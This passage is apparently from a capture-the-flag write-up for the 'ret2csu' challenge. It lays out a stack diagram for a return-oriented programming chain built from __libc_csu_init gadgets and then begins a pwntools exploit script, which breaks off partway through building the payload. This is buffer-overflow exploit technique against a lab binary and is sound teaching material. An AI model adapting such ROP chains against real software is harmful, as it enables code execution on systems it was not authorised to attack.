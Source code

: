 So now we have everything we need to make the payload.

Note, I'll be using gadgets from the csu init function with just gadget $line_num for notation

```
         | stack          |
         | -------------- | 
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | gadget 90      | # pop everything off rbx, rbp, r12-15      
8  bytes | 0x1            | # rbx value                                         
8  bytes | 0x2            | # rbp value must be 1 more then rbx for the cmp and jump               
8  bytes | addr in dynm   | # r12 the address in dynamic pointing to func pointer to csu_fini
8  bytes | 0xdeadbeef...  | # r13 mapped to edi                                   
8  bytes | 0xcafebabe...  | # r14 mapped to rsi                               
8  bytes | 0xd00df00d     | # r15 mapped to rdx                       
8  bytes | gadget 64      | # the gadget for placing rdx and going through the call
8  bytes | random junk    | # stack pointer is add/sub to 
8  bytes | 0x1            | # we have to redo all the pops to finish out the function
8  bytes | 0x2            |                
8  bytes | addr in dynm   | 
8  bytes | 0xdeadbeef...  |                                   
8  bytes | 0xcafebabe...  |                                
8  bytes | 0xd00df00d     |                       
8  bytes | pop rdi        | # replace the changed rdi value
8  bytes | 0xdeadbeef...  | 
8  bytes | ret2win        | # all values have been placed so we can call ret2win
8  bytes | -------------- |

```


```Python
#!/usr/bin/python3

from pwn import *


write_loc 	= 0x601029
print_file 	= p64(0x400620)
target		= "./ret2csu"
back_junk 	= b"B" * 20
# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
		continue
		print(binascii.hexlify(payload[i:i+8]))

io = process(target)
first_out = io.clean(0.5).decode("utf-8")
print(first_out)
payload = junk + new_bp
payload += p64(0x0040069a)		# pop everything
payload += p64(0x1)			# rbx val *8 for call
```